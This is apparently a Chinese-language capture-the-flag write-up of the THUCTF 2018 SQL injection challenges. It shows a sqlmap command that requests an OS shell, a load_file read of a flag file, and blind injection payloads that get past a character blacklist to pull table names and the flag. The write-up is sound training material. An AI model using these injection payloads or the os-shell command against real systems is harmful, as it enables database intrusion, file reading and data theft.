 ```shell
sqlmap -r bhttp -p cowname --dbms mysql --tamper=space2comment  --os-shell
```

执行 select load_file('/var/lib/mysql-files/flag'); 得到结果

![1538204367167](https://saferman.github.io/assets/img/thuctf2018/sql_load_file_flag.png)

### wdSimpleSQLv4

本题加大难度，首先下载源码审计先看看之前的 cowname 注入点是否还存在注入。

![1538222309402](https://saferman.github.io/assets/img/thuctf2018/cowname_sql4.png)

注意 cowid 这里是作为参数传入 query 的，db 是 MYSQLdb, 阅读源码知道：

```
https://github.com/PyMySQL/mysqlclient-python/blob/master/MySQLdb/cursors.py
https://github.com/PyMySQL/mysqlclient-python/blob/master/MySQLdb/connections.py 
```

![1538223536623](https://saferman.github.io/assets/img/thuctf2018/escape_string.png)

也不存在宽字节注入，因此这个点没有注入问题。继续审计代码，发现：

虽然注册的时候使用正则匹配了 username 内容，但是登录的时候这一步是在前端完成的！而 Login 处代码如下：

![1538223741805](https://saferman.github.io/assets/img/thuctf2018/username_sql4.png)

可以看到，存在基于报错和基于逻辑的 SQL 注入问题！关键问题是要绕过 blacklist，如下：

![1538223835728](https://saferman.github.io/assets/img/thuctf2018/regex_sql4.png)

分析之后可以得到如下可以使用的字符：

![1538223933000](https://saferman.github.io/assets/img/thuctf2018/allowed-char.png)

根据 MYSQL 相关的语法得到如下测试 Payload 和注入 Payload。

```
# 测试 Payload
username=qwert'and('a'='a')#&password=qwert      
```

```
# 注入 Payload，破解表名
username=qwert'and(substring((select(group_concat(table_name))from(information_schema.TABLES)where(TABLE_SCHEMA='rctf')),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a'))))='p')#&password=qwert 
```

但是这里有一个坑！，就是大小写的问题，table 对大小写是敏感的！！！并且：

![1538224215909](https://saferman.github.io/assets/img/thuctf2018/case_equal.png)

上述注入 Payload 得到的表名大小写无法确定，我在实际做题的时候得到 pisaukbsoucg。 这个表在后面使用下面的 Payload 查询得到表不存在的错误：

```
username=qwert'and(mid((select(flag)from(pisaukbsoucg)),(ord('b')MOD(ord('a'))),(ord('b')MOD(ord('a'))))='T')#&password=qwert 
```
